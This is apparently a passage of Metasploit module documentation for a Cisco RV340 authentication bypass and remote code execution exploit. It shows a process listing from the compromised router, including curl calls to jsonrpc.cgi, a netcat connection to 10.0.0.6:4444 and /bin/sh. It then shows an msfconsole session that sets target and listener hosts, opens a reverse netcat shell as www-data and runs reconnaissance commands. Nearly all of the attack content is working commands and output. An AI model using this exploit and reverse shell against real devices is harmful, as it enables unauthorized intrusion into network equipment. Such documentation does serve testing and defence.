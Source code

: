 ```
10632 root     12948 S    casa
10684 root      1884 S    lcavc
10750 root     14248 S    lcstat daemon
10851 root      2152 S    /usr/sbin/lldpd -I eth3*
10857 root     10124 S    /usr/sbin/lldpd -I eth3*
10873 root     80496 S    wfapp 50001 42 1 0 0 RV340-WB PSZ24161FA9
10986 root      6216 S    {vpnTimer} /usr/bin/perl -w /usr/sbin/vpnTimer
10987 root      6084 S    {vpnLed} /usr/bin/perl -w /usr/sbin/vpnLed
11055 root      3432 S    /usr/lib/ipsec/starter --daemon charon
11056 root      137m S    /usr/lib/ipsec/charon --use-syslog --debug-chd 2 --d
11058 root     16316 S    /usr/bin/python /usr/lib/python2.7/site-packages/pnp
12037 root      4624 S    notifyd -i 127.0.0.1
12055 root     16212 S    nginx: master process /usr/sbin/nginx
12065 www-data  7456 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12066 www-data  7124 S    uwsgi -m --ini /etc/uwsgi/blockpage.ini
12067 www-data  7124 S    uwsgi -m --ini /etc/uwsgi/upload.ini
12111 www-data  7216 S    uwsgi -m --ini /etc/uwsgi/upload.ini
12112 www-data  7548 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12113 www-data  7548 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12114 www-data  7124 S    uwsgi -m --ini /etc/uwsgi/blockpage.ini
12115 www-data  7548 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12116 www-data  7548 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12444 root     24804 S    /usr/bin/snmpglue -n 1
12794 root      3224 S    /usr/sbin/crond -c /mnt/configcert/crontabs -l 5
14266 root      5128 S    {syslog-ng} supervising syslog-ng
14267 root      5480 S    /usr/sbin/syslog-ng -f /tmp/syslog-ng.conf
28966 www-data  3116 S    sh -c curl http://127.0.0.1/jsonrpc.cgi --cookie 'se
28967 www-data  3116 S    sh -c curl http://127.0.0.1/jsonrpc.cgi --cookie 'se
28969 www-data  3116 S    nc 10.0.0.6 4444
28970 www-data  3116 S    /bin/sh
30804 nobody    2676 S    avahi-daemon: running [router0B874A.local]
30855 www-data 16372 S    nginx: worker process
30856 www-data 16212 S    nginx: worker process
30857 www-data 16212 S    nginx: worker process
30858 www-data 16368 S    nginx: worker process
```

### Cisco RV340 using firmware version 1.0.03.20. Reverse shell with reverse netcat.

```
msf6 > use exploits/linux/http/cisco_rv_series_authbypass_and_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set RHOST 10.0.0.8
RHOST => 10.0.0.8
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set LHOST 10.0.0.6
LHOST => 10.0.0.6
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > run

[*] Started reverse TCP handler on 10.0.0.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (10.0.0.6:4444 -> 10.0.0.8:34155 ) at 2022-01-29 18:46:01 -0800
[+] Exploit successfully executed.

uname -a
Linux router0B874A 4.1.8 #2 SMP Thu Sep 17 09:26:06 IST 2020 armv7l GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
netstat -tlpn
netstat: showing only processes with your user ID
Active Internet connections (only servers)
```